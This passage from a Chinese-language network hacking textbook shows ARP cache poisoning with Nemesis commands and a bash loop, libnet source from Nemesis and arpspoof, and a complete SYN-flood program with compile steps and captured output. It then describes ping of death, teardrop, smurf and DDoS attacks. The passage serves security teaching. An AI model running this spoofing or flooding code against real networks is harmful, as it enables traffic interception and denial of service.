  udp

NEMESIS options: 
  To display options, specify a mode with the option "help".

reader@hacking:~/booksrc $ nemesis arp help

ARP/RARP Packet Injection -=- The NEMESIS Project Version 1.4 (Build 26)

ARP/RARP Usage:
  arp [-v (verbose)] [options]

ARP/RARP Options: 
  -S <Source IP address>
  -D <Destination IP address>
  -h <Sender MAC address within ARP frame>
  -m <Target MAC address within ARP frame>
  -s <Solaris style ARP requests with target hardware addess set to broadcast>
  -r ({ARP,RARP} REPLY enable)
  -R (RARP enable)
  -P <Payload file>

Data Link Options: 
  -d <Ethernet device name>
  -H <Source MAC address>
  -M <Destination MAC address>

You must define a Source and Destination IP address.

reader@hacking:~/booksrc $ sudo nemesis arp -v -r -d eth0 -S 192.168.0.1 -D
192.168.0.118 -h 00:00:AD:D1:C7:ED -m 00:C0:F0:79:3D:30 -H 00:00:AD:D1:C7:ED -
M 00:C0:F0:79:3D:30

ARP/RARP Packet Injection -=- The NEMESIS Project Version 1.4 (Build 26)

               [MAC] 00:00:AD:D1:C7:ED > 00:C0:F0:79:3D:30
     [Ethernet type] ARP (0x0806)

  [Protocol addr:IP] 192.168.0.1 > 192.168.0.118
 [Hardware addr:MAC] 00:00:AD:D1:C7:ED > 00:C0:F0:79:3D:30
        [ARP opcode] Reply
  [ARP hardware fmt] Ethernet (1)
  [ARP proto format] IP (0x0800)
  [ARP protocol len] 6
  [ARP hardware len] 4

Wrote 42 byte unicast ARP request packet through linktype DLT_EN10MB

ARP Packet Injected
reader@hacking:~/booksrc $ sudo nemesis arp -v -r -d eth0 -S 192.168.0.118 -D 
192.168.0.1 -h  00:00:AD:D1:C7:ED -m 00:50:18:00:0F:01 -H 00:00:AD:D1:C7:ED -M 
00:50:18:00:0F:01

ARP/RARP Packet Injection -=- The NEMESIS Project Version 1.4 (Build 26)

               [MAC] 00:00:AD:D1:C7:ED > 00:50:18:00:0F:01
     [Ethernet type] ARP (0x0806)

  [Protocol addr:IP] 192.168.0.118 > 192.168.0.1
 [Hardware addr:MAC] 00:00:AD:D1:C7:ED > 00:50:18:00:0F:01
        [ARP opcode] Reply
  [ARP hardware fmt] Ethernet (1)
  [ARP proto format] IP (0x0800)
  [ARP protocol len] 6
  [ARP hardware len] 4

Wrote 42 byte unicast ARP request packet through linktype DLT_EN10MB.

ARP Packet Injected 
reader@hacking:~/booksrc $
```

这两个命令从 192.168.0.1 到 192.168.0.118 以及相反方向欺骗 ARP 响应，都声称它们的 MAC 地址是攻击者的 MAC 地址 `00:00:AD:D1:C7:ED`。如果这些命令每 10 秒重复一次，这些虚假的 ARP 响应将继续使 ARP 缓存中毒并重定向流量。标准的 BASH shell 允许使用熟悉的控制流语句进行命令脚本化。下面使用了一个简单的 BASH shell while 循环来无限循环，每 10 秒发送我们的两个中毒 ARP 响应。

```
reader@hacking:~/booksrc $ while true
> do
> sudo nemesis arp -v -r -d eth0 -S 192.168.0.1 -D 192.168.0.118 -h
00:00:AD:D1:C7:ED -m 00:C0:F0:79:3D:30 -H 00:00:AD:D1:C7:ED -M 
00:C0:F0:79:3D:30
> sudo nemesis arp -v -r -d eth0 -S 192.168.0.118 -D 192.168.0.1 -h 
00:00:AD:D1:C7:ED -m 00:50:18:00:0F:01 -H 00:00:AD:D1:C7:ED -M 
00:50:18:00:0F:01
> echo "Redirecting..."
> sleep 10
> done

ARP/RARP Packet Injection -=- The NEMESIS Project Version 1.4 (Build 26)

               [MAC] 00:00:AD:D1:C7:ED > 00:C0:F0:79:3D:30
     [Ethernet type] ARP (0x0806)

  [Protocol addr:IP] 192.168.0.1 > 192.168.0.118
 [Hardware addr:MAC] 00:00:AD:D1:C7:ED > 00:C0:F0:79:3D:30
        [ARP opcode] Reply
  [ARP hardware fmt] Ethernet (1)
  [ARP proto format] IP (0x0800)
  [ARP protocol len] 6
  [ARP hardware len] 4
Wrote 42 byte unicast ARP request packet through linktype DLT_EN10MB.

ARP Packet Injected

ARP/RARP Packet Injection -=- The NEMESIS Project Version 1.4 (Build 26)

               [MAC] 00:00:AD:D1:C7:ED > 00:50:18:00:0F:01
     [Ethernet type] ARP (0x0806)

  [Protocol addr:IP] 192.168.0.118 > 192.168.0.1
 [Hardware addr:MAC] 00:00:AD:D1:C7:ED > 00:50:18:00:0F:01
        [ARP opcode] Reply
  [ARP hardware fmt] Ethernet (1)
  [ARP proto format] IP (0x0800)
  [ARP protocol len] 6
  [ARP hardware len] 4
Wrote 42 byte unicast ARP request packet through linktype DLT_EN10MB.
ARP Packet Injected 
Redirecting...
```

你可以看到，像 Nemesis 和标准的 BASH shell 这样简单的东西可以用来快速组合网络攻击。Nemesis 使用一个名为 libnet 的 C 库来制作欺骗数据包并将其注入。类似于 libpcap，这个库使用原始套接字，并通过标准接口平衡不同平台之间的不一致性。libnet 还提供了一些方便的网络数据包处理函数，例如生成校验和。

libnet 库提供了一个简单且统一的 API 来制作和注入网络数据包。它有很好的文档记录，函数名具有描述性。从 Nemesis 的源代码中可以高屋建瓴地看到，使用 libnet 制作 ARP 数据包是多么容易。下面的 `nemesis_arp()` 函数在 nemesis.c 中被调用，用于构建和注入一个 ARP 数据包。

### 来自 nemesis-arp.c

```
static ETHERhdr etherhdr;
`static ARPhdr arphdr;`

...

void nemesis_arp(int argc, char **argv)
{
    const char *module= "ARP/RARP Packet Injection";

    nemesis_maketitle(title, module, version);

    if (argc > 1 && !strncmp(argv[1], "help", 4))
        arp_usage(argv[0]);

    `arp_initdata();     arp_cmdline(argc, argv);     arp_validatedata();     arp_verbose();`

    if (got_payload)
    {
        if (builddatafromfile(ARPBUFFSIZE, &pd, (const char *)file,
                    (const u_int32_t)PAYLOADMODE) < 0)
            arp_exit(1);
    }

    `if (buildarp(&etherhdr, &arphdr, &pd, device, reply) < 0)     {         printf("\n%s Injection Failure\n", (rarp == 0 ? "ARP" : "RARP"));         arp_exit(1);     }     else     {         printf("\n%s Packet Injected\n", (rarp == 0 ? "ARP" : "RARP"));         arp_exit(0);     }` 
}
```

结构 `ETHERhdr` 和 `ARPhdr` 在文件 nemesis.h 中（如下所示）被定义为现有 libnet 数据结构的别名。在 C 语言中，`typedef` 用于用符号别名一个数据类型。

### 来自 nemesis.h

```
typedef struct libnet_arp_hdr ARPhdr;
typedef struct libnet_as_lsa_hdr ASLSAhdr;
typedef struct libnet_auth_hdr AUTHhdr;
typedef struct libnet_dbd_hdr DBDhdr;
typedef struct libnet_dns_hdr DNShdr;
`typedef struct libnet_ethernet_hdr ETHERhdr;`
typedef struct libnet_icmp_hdr ICMPhdr;
typedef struct libnet_igmp_hdr IGMPhdr; 
typedef struct libnet_ip_hdr IPhdr;
```

`nemesis_arp()` 函数调用此文件中的其他一系列函数：`arp_initdata(), arp_cmdline(), arp_validatedata()` 和 `arp_verbose()`。你可能猜得到，这些函数分别用于初始化数据、处理命令行参数、验证数据和进行某种形式的详细报告。`arp_initdata()` 函数正是如此，它在静态声明的数据结构中初始化值。

下面展示的 `arp_initdata()` 函数，将头部结构中的各个元素设置为适合 ARP 数据包的适当值。

### 从 nemesis-arp.c

```
static void arp_initdata(void)
{
    /* defaults */
    etherhdr.ether_type = ETHERTYPE_ARP;  /* Ethernet type ARP */
    memset(etherhdr.ether_shost, 0, 6);   /* Ethernet source address */
    memset(etherhdr.ether_dhost, 0xff, 6); /* Ethernet destination address */
    arphdr.ar_op = ARPOP_REQUEST;         /* ARP opcode: request */
    arphdr.ar_hrd = ARPHRD_ETHER;         /* hardware format: Ethernet */
    arphdr.ar_pro = ETHERTYPE_IP;         /* protocol format: IP */
    arphdr.ar_hln = 6;                    /* 6 byte hardware addresses */
    arphdr.ar_pln = 4;                    /* 4 byte protocol addresses */
    memset(arphdr.ar_sha, 0, 6);          /* ARP frame sender address */
    memset(arphdr.ar_spa, 0, 4);           /* ARP sender protocol (IP) addr */
    memset(arphdr.ar_tha, 0, 6);          /* ARP frame target address */
    memset(arphdr.ar_tpa, 0, 4);          /* ARP target protocol (IP) addr */
    pd.file_mem = NULL;
    pd.file_s = 0;
    return;
}
```

最后，`nemesis_arp()` 函数通过指向头部数据结构的指针调用 `buildarp()` 函数。从 `buildarp()` 的返回值在这里的处理方式来看，`buildarp()` 构建数据包并注入它。这个函数位于另一个源文件，即 nemesis-proto_arp.c。

### 从 nemesis-proto_arp.c

```
int buildarp(ETHERhdr *eth, ARPhdr *arp, FileData *pd, char *device,
        int reply)
{
    int n = 0;
    u_int32_t arp_packetlen;
    static u_int8_t *pkt;
    struct libnet_link_int *l2 = NULL;

    /* validation tests */

    if (pd->file_mem == NULL)
        pd->file_s = 0;

    arp_packetlen = LIBNET_ARP_H + LIBNET_ETH_H + pd->file_s;

#ifdef DEBUG
    printf("DEBUG: ARP packet length %u.\n", arp_packetlen);
    printf("DEBUG: ARP payload size  %u.\n", pd->file_s);
#endif

    if ((l2 = `libnet_open_link_interface(device, errbuf)` ) == NULL)
    {
        nemesis_device_failure(INJECTION_LINK, (const char *)device);
        return -1;
    }

    if `(libnet_init_packet(arp_packetlen, &pkt)`  == -1)
    {
        fprintf(stderr, "ERROR: Unable to allocate packet memory.\n");
        return -1;
    }

    `libnet_build_ethernet(eth->ether_dhost, eth->ether_shost, eth->ether_type,             NULL, 0, pkt);      libnet_build_arp(arp->ar_hrd, arp->ar_pro, arp->ar_hln, arp->ar_pln,             arp->ar_op, arp->ar_sha, arp->ar_spa, arp->ar_tha, arp->ar_tpa,             pd->file_mem, pd->file_s, pkt + LIBNET_ETH_H);      n = libnet_write_link_layer(l2, device, pkt, LIBNET_ETH_H +                 LIBNET_ARP_H + pd->file_s);`

    if (verbose == 2)
        nemesis_hexdump(pkt, arp_packetlen, HEX_ASCII_DECODE);
    if (verbose == 3)
        nemesis_hexdump(pkt, arp_packetlen, HEX_RAW_DECODE);

    if (n != arp_packetlen)
    {
        fprintf(stderr, "ERROR: Incomplete packet injection.  Only "
                "wrote %d bytes.\n", n);
    }
    else
    {
        if (verbose)
        {
            if (memcmp(eth->ether_dhost, (void *)&one, 6))
            {
                printf("Wrote %d byte unicast ARP request packet through "
                        "linktype %s.\n", n,
                        nemesis_lookup_linktype(l2->linktype));
            }
            else
            {
                printf("Wrote %d byte %s packet through linktype %s.\n", n,

                        (eth->ether_type == ETHERTYPE_ARP ? "ARP" : "RARP"),
                        nemesis_lookup_linktype(l2->linktype));
            }
        }
    }

    `libnet_destroy_packet(&pkt);`
    if (l2 != NULL)
        `libnet_close_link_interface(l2);`
    return (n);
}
```

从高层次来看，这个函数应该对你来说是可读的。使用 libnet 函数，它打开一个链路接口并为数据包初始化内存。然后，它使用以太网头部数据结构中的元素构建以太网层，然后对 ARP 层做同样的操作。接下来，它将数据包写入设备以注入它，最后通过销毁数据包和关闭接口来清理。下面展示了这些函数的手册页文档，以供参考。

### 从 libnet 手册页

```
`libnet_open_link_interface()` opens a low-level packet interface. This is 
required to write link layer frames. Supplied is a u_char pointer to the
interface device name and a u_char pointer to an error buffer. Returned is a
filled in libnet_link_int struct or NULL on error.

`libnet_init_packet()` initializes a packet for use. If the size parameter is
omitted (or negative) the library will pick a reasonable value for the user
(currently LIBNET_MAX_PACKET). If the memory allocation is successful, the
memory is zeroed and the function returns 1\. If there is an error, the
function returns -1\. Since this function calls malloc, you certainly should,
at some point, make a corresponding call to destroy_packet().

`libnet_build_ethernet()` constructs an ethernet packet. Supplied is the
destination  address, source address (as arrays of unsigned characterbytes)
and the ethernet frame type, a pointer to an optional data  payload, the
payload  length, and a pointer to a pre-allocated block of memory for the
packet. The ethernet packet type should be one  of the following:

Value               Type
ETHERTYPE_PUP       PUP protocol
ETHERTYPE_IP        IP protocol
ETHERTYPE_ARP       ARP protocol
ETHERTYPE_REVARP    Reverse ARP protocol
ETHERTYPE_VLAN      IEEE VLAN tagging
ETHERTYPE_LOOPBACK  Used to test interfaces

`libnet_build_arp()` constructs an ARP (Address Resolution Protocol) packet.
Supplied are the following: hardware address type, protocol address type, the
hardware address length, the protocol address length, the ARP packet type, the
sender hardware address, the sender protocol address, the target hardware
address, the target protocol address, the packet payload, the payload size,
and finally, a pointer to the packet header memory. Note that this function

only builds ethernet/IP ARP packets, and consequently the first value should
be ARPHRD_ETHER. The ARP packet type should be one of the following:
ARPOP_REQUEST, ARPOP_REPLY, ARPOP_REVREQUEST, ARPOP_REVREPLY,
ARPOP_INVREQUEST, or ARPOP_INVREPLY.

`libnet_destroy_packet()` frees the memory associated with the packet.

`libnet_close_link_interface()` closes an opened low-level packet interface.
Returned is 1 upon success or -1 on error.
```

在具备基本的 C 语言、API 文档和常识的基础上，你可以通过检查开源项目自学。例如，Dug Song 提供了一个名为 arpspoof 的程序，包含在 dsniff 中，该程序执行 ARP 重定向攻击。

### 从 arpspoof 手册页

```
NAME
       arpspoof - intercept packets on a switched LAN

SYNOPSIS
       arpspoof [-i interface] [-t target] host

DESCRIPTION
       arpspoof redirects packets from a target host (or all hosts) on the LAN
       intended for another host on the LAN by forging ARP replies. This is
       an extremely effective way of sniffing traffic on a switch.

       Kernel IP forwarding (or a userland program which accomplishes the
       same, e.g. fragrouter(8)) must be turned on ahead of time.

OPTIONS
       -i interface
              Specify the interface to use.

       -t target
              Specify a particular host to ARP poison (if not  specified, all
              hosts on the LAN).

       host   Specify  the host you wish to intercept packets for (usually the
              local gateway).

SEE ALSO
       dsniff(8), fragrouter(8)

AUTHOR 
       Dug Song <dugsong@monkey.org>
```

这个程序的魅力来自于其 `arp_send()` 函数，该函数也使用 libnet 来伪造数据包。由于许多之前解释过的 libnet 函数被使用（以下用粗体标出），所以这个函数的源代码应该对你来说是可读的。使用结构和错误缓冲区也应该很熟悉。

### arpspoof.c

```
static struct libnet_link_int *llif;
static struct ether_addr spoof_mac, target_mac;
static in_addr_t spoof_ip, target_ip;

...

int
arp_send(struct libnet_link_int *llif, char *dev,
     int op, u_char *sha, in_addr_t spa, u_char *tha, in_addr_t tpa)
{
    char ebuf[128];
    u_char pkt[60];

    if (sha == NULL &&
        (sha = (u_char *)libnet_get_hwaddr(llif, dev, ebuf)) == NULL) {
        return (-1);
    }
    if (spa == 0) {
        if ((spa = libnet_get_ipaddr(llif, dev, ebuf)) == 0)
            return (-1);
        spa = htonl(spa); /* XXX */
    }
    if (tha == NULL)
        tha = "\xff\xff\xff\xff\xff\xff";

    `libnet_build_ethernet(tha, sha, ETHERTYPE_ARP, NULL, 0, pkt);      libnet_build_arp(ARPHRD_ETHER, ETHERTYPE_IP, ETHER_ADDR_LEN, 4,              op, sha, (u_char *)&spa, tha, (u_char *)&tpa,              NULL, 0, pkt + ETH_H);`

    fprintf(stderr, "%s ",
        ether_ntoa((struct ether_addr *)sha));

    if (op == ARPOP_REQUEST) {
        fprintf(stderr, "%s 0806 42: arp who-has %s tell %s\n",
            ether_ntoa((struct ether_addr *)tha),
            libnet_host_lookup(tpa, 0),
            libnet_host_lookup(spa, 0));
    }
    else {
        fprintf(stderr, "%s 0806 42: arp reply %s is-at ",
            ether_ntoa((struct ether_addr *)tha),
            libnet_host_lookup(spa, 0));
        fprintf(stderr, "%s\n",
            ether_ntoa((struct ether_addr *)sha));
    }
    return (`libnet_write_link_layer(llif, dev, pkt, sizeof(pkt)) == sizeof(pkt));`
}
```

剩余的 libnet 函数用于获取硬件地址、获取 IP 地址和查找主机。这些函数具有描述性的名称，并在 libnet 手册页上有详细的解释。

### 从 libnet 手册页

```
`libnet_get_hwaddr()` takes a pointer to a link layer interface struct, a
pointer to the network device name, and an empty buffer to be used in case of
error. The function returns the MAC address of the specified interface upon
success or 0 upon error (and errbuf will contain a reason).

`libnet_get_ipaddr()` takes a pointer to a link layer interface struct, a
pointer to the network device name, and an empty buffer to be used in case of
error. Upon success the function returns the IP address of the specified
interface in host-byte order or 0 upon error (and errbuf will contain a
reason).

`libnet_host_lookup()` converts the supplied network-ordered (big-endian) IPv4
address into its human-readable counterpart. If use_name is 1,
libnet_host_lookup() will attempt to resolve this IP address and return a
hostname, otherwise (or if the lookup fails), the function returns a dotted-
decimal ASCII string.
```

一旦你学会了如何阅读 C 代码，现有的程序可以通过示例教你很多。像 libnet 和 libpcap 这样的编程库有大量的文档，解释了所有你可能无法仅从源代码中推断出的细节。这里的目的是教你如何从源代码中学习，而不是仅仅教你如何使用几个库。毕竟，还有很多其他的库和大量使用它们的现有源代码。

# 拒绝服务

网络攻击中最简单的一种形式是拒绝服务（DoS）攻击。与试图窃取信息不同，DoS 攻击只是阻止对服务或资源的访问。DoS 攻击有两种一般形式：导致服务崩溃的和导致服务拥塞的。

导致服务崩溃的拒绝服务攻击实际上与程序漏洞利用比基于网络的漏洞利用更相似。通常，这些攻击依赖于特定供应商的糟糕实现。一个错误的缓冲区溢出漏洞利用通常只会使目标程序崩溃，而不是将执行流程导向注入的 shellcode。如果这个程序恰好在服务器上运行，那么在它崩溃后，其他人将无法访问该服务器。这种崩溃的 DoS 攻击与某个特定程序和版本紧密相关。由于操作系统处理网络堆栈，这段代码的崩溃将使内核崩溃，导致整个机器的服务被拒绝。许多这些漏洞在现代操作系统上早已被修补，但思考这些技术如何应用于不同情况仍然是有用的。

## SYN 洪水

SYN 洪水试图耗尽 TCP/IP 堆栈中的状态。由于 TCP 维护“可靠”的连接，每个连接都需要在某个地方进行跟踪。内核中的 TCP/IP 堆栈处理这项工作，但它有一个有限的表，只能跟踪这么多传入的连接。SYN 洪水利用了这一限制。

攻击者使用伪造的不存在的源地址向受害者的系统发送大量的 SYN 数据包。由于 SYN 数据包用于初始化 TCP 连接，受害者的机器将向伪造的地址发送一个 SYN/ACK 数据包作为响应，并等待预期的 ACK 响应。每个这些等待的半开连接都会进入一个有限空间的回退队列。由于伪造的源地址实际上并不存在，因此从队列中删除这些条目并完成连接所需的 ACK 响应永远不会到来。相反，每个半开连接必须超时，这需要相对较长的时间。

只要攻击者继续向受害者的系统发送伪造的 SYN 数据包，受害者的回退队列就会保持满载，这使得真正的 SYN 数据包几乎无法到达系统并初始化有效的 TCP/IP 连接。

以 Nemesis 和 arpspoof 的源代码为参考，你应该能够编写一个执行这种攻击的程序。下面的示例程序使用了从源代码中提取的 libnet 函数和之前解释过的套接字函数。Nemesis 源代码使用 `libnet_get_prand()` 函数来获取用于各种 IP 字段的伪随机数。`libnet_seed_prand()` 函数用于初始化随机数生成器。以下类似地使用了这些函数。

### synflood.c

```
#include <libnet.h>

#define FLOOD_DELAY 5000 // Delay between packet injects by 5000 ms.

/* Returns an IP in x.x.x.x notation */
char *print_ip(u_long *ip_addr_ptr) {
   return inet_ntoa( *((struct in_addr *)ip_addr_ptr) );
}

int main(int argc, char *argv[]) {
   u_long dest_ip;
   u_short dest_port;
   u_char errbuf[LIBNET_ERRBUF_SIZE], *packet;
   int opt, network, byte_count, packet_size = LIBNET_IP_H + LIBNET_TCP_H;

   if(argc < 3)
   {
      printf("Usage:\n%s\t <target host> <target port>\n", argv[0]);
      exit(1);
   }

   dest_ip = libnet_name_resolve(argv[1], LIBNET_RESOLVE); // The host
   dest_port = (u_short) atoi(argv[2]); // The port

   network = libnet_open_raw_sock(IPPROTO_RAW); // Open network interface. 
   if (network == -1)
      libnet_error(LIBNET_ERR_FATAL, "can't open network interface.  -- this program
 must run
as root.\n");
   libnet_init_packet(packet_size, &packet); // Allocate memory for packet. 
   if (packet == NULL)
      libnet_error(LIBNET_ERR_FATAL, "can't initialize packet memory.\n");

   libnet_seed_prand(); // Seed the random number generator.

   printf("SYN Flooding port %d of %s..\n", dest_port, print_ip(&dest_ip));
   while(1) // loop forever (until break by CTRL-C)
   {
      libnet_build_ip(LIBNET_TCP_H,      // Size of the packet sans IP header.
         IPTOS_LOWDELAY,                 // IP tos
         libnet_get_prand(LIBNET_PRu16), // IP ID (randomized)
         0,                              // Frag stuff
         libnet_get_prand(LIBNET_PR8),   // TTL (randomized)
         IPPROTO_TCP,                    // Transport protocol
         libnet_get_prand(LIBNET_PRu32), // Source IP (randomized)
         dest_ip,                        // Destination IP
         NULL,                           // Payload (none)
         0,                              // Payload length
         packet);                        // Packet header memory

      libnet_build_tcp(libnet_get_prand(LIBNET_PRu16), // Source TCP port (random)
         dest_port,                      // Destination TCP port
         libnet_get_prand(LIBNET_PRu32), // Sequence number (randomized)
         libnet_get_prand(LIBNET_PRu32), // Acknowledgement number (randomized)
         TH_SYN,                         // Control flags (SYN flag set only)
         libnet_get_prand(LIBNET_PRu16), // Window size (randomized)
         0,                              // Urgent pointer
         NULL,                           // Payload (none)
         0,                              // Payload length
         packet + LIBNET_IP_H);          // Packet header memory

      if (libnet_do_checksum(packet, IPPROTO_TCP, LIBNET_TCP_H) == -1)
         libnet_error(LIBNET_ERR_FATAL, "can't compute checksum\n");

      byte_count = libnet_write_ip(network, packet, packet_size); // Inject packet.
      if (byte_count < packet_size)
         libnet_error(LIBNET_ERR_WARNING, "Warning: Incomplete packet written.  (%d of %d
bytes)", byte_count, packet_size);

      usleep(FLOOD_DELAY); // Wait for FLOOD_DELAY milliseconds.
   }

   libnet_destroy_packet(&packet); // Free packet memory.

   if (libnet_close_raw_sock(network) == -1) // Close the network interface.

      libnet_error(LIBNET_ERR_WARNING, "can't close network interface.");

   return 0;
}
```

这个程序使用一个 `print_ip()` 函数来处理将 libnet 存储 IP 地址所用的 u_long 类型转换为 `inet_ntoa()` 所期望的 struct 类型。值本身并没有改变——类型转换只是为了让编译器满意。

libnet 的当前版本是 1.1，与 libnet 1.0 不兼容。然而，Nemesis 和 arpspoof 仍然依赖于 libnet 的 1.0 版本，因此这个版本包含在 LiveCD 中，这也是我们将在我们的 synflood 程序中使用的版本。与使用 libpcap 编译类似，使用 libnet 编译时，使用标志 `-lnet`。然而，这并不是足够的信息供编译器使用，如下面的输出所示。

```
reader@hacking:~/booksrc $ gcc -o synflood synflood.c -lnet
In file included from synflood.c:1:
/usr/include/libnet.h:87:2: #error "byte order has not been specified, you'll"
synflood.c:6: error: syntax error before string constant
reader@hacking:~/booksrc $
```

编译器仍然失败，因为需要为 libnet 设置几个强制性的定义标志。与 libnet 一起，有一个名为 libnet-config 的程序会输出这些标志。

```
reader@hacking:~/booksrc $ libnet-config --help
Usage: libnet-config [OPTIONS]
Options:
        [--libs]
        [--cflags]
        [--defines]
reader@hacking:~/booksrc $ libnet-config --defines
-D_BSD_SOURCE -D__BSD_SOURCE -D__FAVOR_BSD -DHAVE_NET_ETHERNET_H
-DLIBNET_LIL_ENDIAN
```

在这两个中，使用 BASH shell 的命令替换功能，这些定义可以动态地插入到编译命令中。

```
reader@hacking:~/booksrc $ gcc $(libnet-config --defines) -o synflood
synflood.c -lnet
reader@hacking:~/booksrc $ ./synflood
Usage:
./synflood       <target host> <target port>
reader@hacking:~/booksrc $ 
reader@hacking:~/booksrc $ ./synflood 192.168.42.88 22
Fatal: can't open network interface.  -- this program must run as root.
reader@hacking:~/booksrc $ sudo ./synflood 192.168.42.88 22 
SYN Flooding port 22 of 192.168.42.88..
```

在上面的例子中，主机 192.168.42.88 是一台运行在 cygwin 上、端口 22 的 openssh 服务器的 Windows XP 机器。下面的 tcpdump 输出显示了从看似随机的 IP 地址向主机发送的伪造 SYN 数据包洪水。当程序运行时，无法建立到该端口的合法连接。

```
reader@hacking:~/booksrc $ sudo tcpdump -i eth0 -nl -c 15 "host 192.168.42.88"
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on eth0, link-type EN10MB (Ethernet), capture size 96 bytes
17:08:16.334498 IP 121.213.150.59.4584 > 192.168.42.88.22: S
751659999:751659999(0) win 14609
17:08:16.346907 IP 158.78.184.110.40565 > 192.168.42.88.22: S
139725579:139725579(0) win 64357
17:08:16.358491 IP 53.245.19.50.36638 > 192.168.42.88.22: S
322318966:322318966(0) win 43747
17:08:16.370492 IP 91.109.238.11.4814 > 192.168.42.88.22: S
685911671:685911671(0) win 62957
17:08:16.382492 IP 52.132.214.97.45099 > 192.168.42.88.22: S
71363071:71363071(0) win 30490
17:08:16.394909 IP 120.112.199.34.19452 > 192.168.42.88.22: S
1420507902:1420507902(0) win 53397
17:08:16.406491 IP 60.9.221.120.21573 > 192.168.42.88.22: S
2144342837:2144342837(0) win 10594
17:08:16.418494 IP 137.101.201.0.54665 > 192.168.42.88.22: S
1185734766:1185734766(0) win 57243
17:08:16.430497 IP 188.5.248.61.8409 > 192.168.42.88.22: S
1825734966:1825734966(0) win 43454
17:08:16.442911 IP 44.71.67.65.60484 > 192.168.42.88.22: S
1042470133:1042470133(0) win 7087
17:08:16.454489 IP 218.66.249.126.27982 > 192.168.42.88.22: S
1767717206:1767717206(0) win 50156
17:08:16.466493 IP 131.238.172.7.15390 > 192.168.42.88.22: S
2127701542:2127701542(0) win 23682
17:08:16.478497 IP 130.246.104.88.48221 > 192.168.42.88.22: S
2069757602:2069757602(0) win 4767
17:08:16.490908 IP 140.187.48.68.9179 > 192.168.42.88.22: S
1429854465:1429854465(0) win 2092
17:08:16.502498 IP 33.172.101.123.44358 > 192.168.42.88.22: S
1524034954:1524034954(0) win 26970
15 packets captured
30 packets received by filter
0 packets dropped by kernel
reader@hacking:~/booksrc $ ssh -v 192.168.42.88
OpenSSH_4.3p2, OpenSSL 0.9.8c 05 Sep 2006
debug1: Reading configuration data /etc/ssh/ssh_config
debug1: Connecting to 192.168.42.88 [192.168.42.88] port 22.
debug1: connect to address 192.168.42.88 port 22: Connection refused
ssh: connect to host 192.168.42.88 port 22: Connection refused
reader@hacking:~/booksrc $
```

一些操作系统（例如，Linux）使用一种称为 syncookies 的技术来尝试防止 SYN 洪水攻击。使用 syncookies 的 TCP 栈使用基于主机细节和时间（以防止重放攻击）的值调整响应 SYN/ACK 包的初始确认号。

TCP 连接实际上只有在检查 TCP 握手的最终 ACK 包时才会变得活跃。如果序列号不匹配或 ACK 永远没有到达，就不会创建连接。这有助于防止伪造的连接尝试，因为 ACK 包需要将信息发送到初始 SYN 包的源地址。

## 死亡之 ping

根据 ICMP 的规范，ICMP 回显消息的数据部分只能有 2¹⁶，即 65,536 字节的数据。ICMP 数据包的数据部分通常被忽视，因为重要的信息在头部。如果发送的 ICMP 回显消息超过了指定的尺寸，几个操作系统会崩溃。这种巨大的尺寸的 ICMP 回显消息亲切地被称为“死亡之 ping”。这是一个非常简单的黑客攻击，利用了由于没有人考虑这种可能性而存在的漏洞。你应该很容易编写一个使用 libnet 执行这种攻击的程序；然而，在现实世界中它并不那么有用。现代系统都修补了这个漏洞。

然而，历史往往有惊人的相似之处。尽管过大的 ICMP 数据包不再会导致计算机崩溃，但新技术有时也会出现类似的问题。蓝牙协议，常用于手机，在 L2CAP 层也有类似的 ping 数据包，该数据包也用于测量已建立链路上的通信时间。许多蓝牙实现都存在同样的问题。Adam Laurie、Marcel Holtmann 和 Martin Herfurt 将这种攻击称为*Bluesmack*，并发布了同名的源代码，该代码执行这种攻击。

## 液滴攻击

另一种由于相同原因出现的崩溃式拒绝服务攻击被称为液滴攻击。液滴攻击利用了几个厂商在 IP 分片重组实现中的另一个弱点。通常，当一个数据包被分片时，存储在头部中的偏移量将排列整齐，以便无重叠地重新构造原始数据包。液滴攻击发送具有重叠偏移量的数据包片段，导致未检查这种不规则条件的实现不可避免地崩溃。

尽管这种特定的攻击已经不再有效，但理解这个概念可以揭示其他领域的问题。尽管不限于拒绝服务，但最近 OpenBSD 内核（以其安全性而自豪）的一个远程利用问题就与分片 IPv6 数据包有关。IPv6 使用比人们熟悉的 IPv4 更复杂的头部信息，甚至使用不同的 IP 地址格式。通常，新产品的早期实现会重复过去犯过的同样错误。

## Ping 洪水攻击

洪水式拒绝服务攻击并不试图必然使服务或资源崩溃，而是试图使其过载，使其无法响应。类似的攻击可能会占用其他资源，如 CPU 周期和系统进程，但洪水攻击专门试图占用网络资源。

洪水的最简单形式就是 ping 洪水攻击。目标是耗尽受害者的带宽，使合法流量无法通过。攻击者向受害者发送许多大型 ping 数据包，这些数据包会消耗受害者网络连接的带宽。

这种攻击并没有什么真正高明的地方——它只是一场带宽的较量。攻击者如果拥有比受害者更大的带宽，就能发送比受害者能接收更多的数据，从而阻止其他合法流量到达受害者。

## 放大攻击

实际上，有一些巧妙的方法可以在不使用大量带宽的情况下执行 ping 洪水攻击。放大攻击利用欺骗和广播地址来将单个数据包流放大一百倍。首先，必须找到一个目标放大系统。这是一个允许向广播地址进行通信并且具有相对较高活跃主机数量的网络。然后，攻击者向放大网络的广播地址发送大量 ICMP 回显请求数据包，并使用受害者的系统作为欺骗的源地址。放大器将这些数据包广播到放大网络上的所有主机，然后这些主机将向欺骗的源地址（即受害者的机器）发送相应的 ICMP 回显回复数据包。

这种流量放大允许攻击者发送相对较小的 ICMP 回显请求数据包流，而受害者则被多达几百倍的 ICMP 回显回复数据包淹没。这种攻击可以使用 ICMP 数据包和 UDP 回显数据包进行。这些技术分别被称为*smurf*和*fraggle*攻击。


图 0x400-9。

## 分布式 DoS 洪水

*分布式 DoS（DDoS）攻击*是洪水 DoS 攻击的分布式版本。由于带宽消耗是洪水 DoS 攻击的目标，攻击者能够使用的带宽越多，他们能够造成的损害就越大。在 DDoS 攻击中，攻击者首先入侵多个其他主机并在它们上安装守护进程。安装了此类软件的系统通常被称为僵尸程序，构成了所谓的僵尸网络。这些僵尸程序耐心等待，直到攻击者选择一个受害者并决定发起攻击。攻击者使用某种控制程序，所有的僵尸程序同时以某种形式的洪水 DoS 攻击攻击受害者。不仅大量分布的主机增加了洪水的影响，这也使得追踪攻击源变得更加困难。

# TCP/IP 劫持

*TCP/IP 劫持*是一种使用欺骗数据包来接管受害者和主机机器之间连接的巧妙技术。当受害者使用一次性密码连接到主机机器时，这种技术特别有用。一次性密码只能用于认证一次，这意味着对于攻击者来说，嗅探认证是毫无用处的。

